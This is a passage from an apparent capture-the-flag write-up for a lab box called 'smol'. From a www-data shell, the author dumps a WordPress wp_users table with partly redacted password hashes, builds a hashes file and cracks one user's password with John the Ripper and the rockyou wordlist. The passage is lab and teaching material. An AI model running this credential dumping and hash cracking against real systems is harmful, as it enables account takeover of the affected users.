 Open mysql wordpress database and find hashes for users:

www-data@smol:/home$ mysql -u wpuser -p wordpress
mysql -u -REDACTED- -p wordpress
Enter password: -REDACTED-

```
mysql> select * from wp_users ;
select * from wp_users ;
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url            | user_registered     | user_activation_key | user_status | display_name           |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
|  1 | admin      | $P$BH.-----------REDACTED--------. | admin         | admin@smol.thm     | http://www.smol.thm | 2023-08-16 06:58:30 |                     |           0 | admin                  |
|  2 | wpuser     | $P$BfZ-----------REDACTED--------. | wp            | wp@smol.thm        | http://smol.thm     | 2023-08-16 11:04:07 |                     |           0 | wp---------REDACTED-   |
|  3 | t-REDACTED | $P$BOb8----------REDACTED--------. | t             | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                     |           0 | -----------REDACTED--- |
|  4 | g-REDACTED | $P$B1U-----------REDACTED--------. | g             | g@smol.thm         | http://smol.thm     | 2023-08-17 20:18:50 |                     |           0 | g----------REDACTED-   |
|  5 | d-REDACTED | $P$BW------------REDACTED--------. | d             | d@local            | http://smol.thm     | 2023-08-17 20:19:15 |                     |           0 | di---------REDACTED-   |
|  6 | x-REDACTED | $P$BB------------REDACTED--------. | x             | x@smol.thm         | http://smol.thm     | 2023-08-17 20:20:01 |                     |           0 | xa---------REDACTED-   |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
6 rows in set (0.00 sec)

```

Create hashes file for Johny 

```
batcat hashes 
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hashes
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ admin:$P$BH.-----------REDACTED--------.
   2   │ t-REDACTED:$P$BH.-----------REDACTED--------.
   3   │ g-REDACTED:$$P$BH.-----------REDACTED--------.
   4   │ d-REDACTED:$P$BH.-----------REDACTED--------.
   5   │ x-REDACTED:$P$BH.-----------REDACTED--------.
───────┴──────────────────────────────────────────────
```
``
$ john hashes --wordlist=/usr/share/wordlists/rockyou.txt 
``
sa-REDACTED-ia (diego)   
